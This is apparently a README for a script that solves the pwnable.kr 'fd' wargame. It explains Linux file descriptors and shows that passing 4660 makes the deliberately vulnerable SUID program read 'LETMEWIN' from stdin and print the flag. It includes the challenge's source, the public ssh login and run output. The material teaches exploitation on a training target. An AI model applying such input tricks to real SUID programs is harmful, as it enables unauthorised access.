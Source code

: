 # file-descriptor-stdin-attack
In Unix and related computer operating systems, a file descriptor (FD, less frequently fildes) is an abstract indicator (handle) used to access a file or other input/output resource, such as a pipe or network socket. File descriptors form part of the POSIX application programming interface. A file descriptor is a non-negative integer, generally represented in the C programming language as the type int (negative values being reserved to indicate "no value" or an error condition).  Each Unix process (except perhaps a daemon) should expect to have three standard POSIX file descriptors, corresponding to the three standard streams.

# Example of use this Script in wargame pwnable.kr (fd)
```
root@kali:~/Desktop/Scripts# python3 file-descriptor.py --hexvalue 0x1234 --vulnapp ./a.out
[+]Hexvalue: 0x1234
[+]Vulnapp: ./a.out
LETMEWIN
good job :)
you get it the flag
```

# Example in wargame pwnable.kr (fd)

ssh fd@pwnable.kr -p2222 (pw:guest)


We are into the server and we see 3 files: fd  fd.c  flag. It is very importat thing to know who am i, so I just enter id or whoami, and seeing the actual user. The file fd.c is readable by the user fd. -rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
And the binary has SUID bit and I can run it. -r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
Flag file we can't read the solution....So we could trick the fd application to read flag and view the content of the file.

Running the binary file to find out some issue or clue :S. When we open this file, I just discover than I will introduce some kind of argument like a number: 
fd@ubuntu:~$ ./fd
pass argv[1] a number

View of the C code fd.c:
```c
fd@ubuntu:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
    if(argc<2){ // Do not accept less than 2 arguments (program name is one of them), print help and exit
        printf("pass argv[1] a number\n");
        return 0;
    } 

// atoi: convert a string array to integer
    int fd = atoi( argv[1] ) - 0x1234;
    int len = 0;

// Read from file descriptor int(argv[1] - 0x1234)
    len = read(fd, buf, 32);

// If strcmp("LETMEWIN\n", buf) returns 0 (matches), print flag
    if(!strcmp("LETMEWIN\n", buf)){
        printf("good job :)\n");
        system("/bin/cat flag");
        exit(0);
    }
    printf("learn about Linux file IO\n");
    return 0;

}

```
The atoi function convert a string to integer value. It is interesting to know what is Linux File Descriptor. The 0 value is stdin, so I figure out how is the value in decimal to 0x1234 = 4660. If I pass as argument 4660, that is equal to read(0, buf, 32). Therefore we need to know that stdin must be enabled with 0 File Descriptor, and you can convert to zero through argument passed. So if I put 4660, fd == 0 and this let us to write (stdin) LETMEWIN\n and saved in buffer array.
```
fd@ubuntu:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

More information about Linux File Descriptors: https://en.wikipedia.org/wiki/File_descriptor

